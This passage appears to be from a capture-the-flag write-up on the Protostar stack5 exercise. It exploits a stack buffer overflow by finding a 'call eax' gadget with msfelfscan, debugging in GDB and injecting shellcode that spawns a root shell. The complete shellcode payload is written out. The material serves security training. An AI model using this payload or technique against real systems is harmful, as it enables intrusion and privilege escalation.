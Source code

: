 We confirm that we can overwrite `$eip` with the memory address that we want.
We also have a 76 byte buffer that we can use to store our shellcode.

However, we now face a problem where we do not know the exact memory location
of `$esp + 0x10` to overwrite `$eip` with. Simply using the value we see in GDB
is not reliable as the exact memory address on the stack can change depending
on how the binary is loaded.

We see that the memory location we want to jump to is actually loaded into
`$eax` during execution. So, if we can locate a `jmp $eax` instruction at a
static location in the program's address space, we can point `$eip` to that
location to execute our shellcode.

```shell
0x080483cd <main+9>:    lea    0x10(%esp),%eax
```

There are many tools to find such "gadgets" in the program's address space. We
will use `msfelfscan` for this example (you can find a copy at
`/usr/share/framework2/msfelfscan` on Kali Linux).

```shell
$ /usr/share/framework2/msfelfscan -f stack5 -j eax
0x080483bf   call eax
0x0804846b   call eax
```

Placing our shellcode at the start of the buffer and replacing "BBBB" with the
memory address of our `call eax` instruction, we get the following payload.

```shell
user@protostar:~$ python -c "print '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 'A' * 21 + '\xbf\x83\x04\x08'" | /opt/protostar/bin/stack5
Segmentation fault
```

Looking in GDB, we see that the last 11 bytes of our shellcode was overwritten
during execution. This is a result of the `push` instructions in the shellcode
writing values onto the stack.

```shell
(gdb) x/20x 0xbffff740
0xbffff740:     0xdb31c031      0x80cd06b0      0x742f6853      0x2f687974
0xbffff750:     0x89766564      0x66c931e3      0xb02712b9      0x3180cd05
0xbffff760:     0x2f6850c0      0x6868732f      0x6e69622f      0xbffff774
0xbffff770:     0x00000000      0x6e69622f      0x68732f2f      0x00000000
0xbffff780:     0x7665642f      0x7974742f      0x00000000      0x080483c1
```

We can fix this by adding a `add $0x10, $esp` instruction to our shellcode to
expand the stack. The instruction translates to `\x83\xc4\x10` in machine code.
Modifying our payload, we end up with a successful exploit.

```shell
user@protostar:~$ python -c "print '\x83\xc4\x10\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 'A' * 18 + '\xbf\x83\x04\x08'" | /opt/protostar/bin/stack5
# whoami
root
```

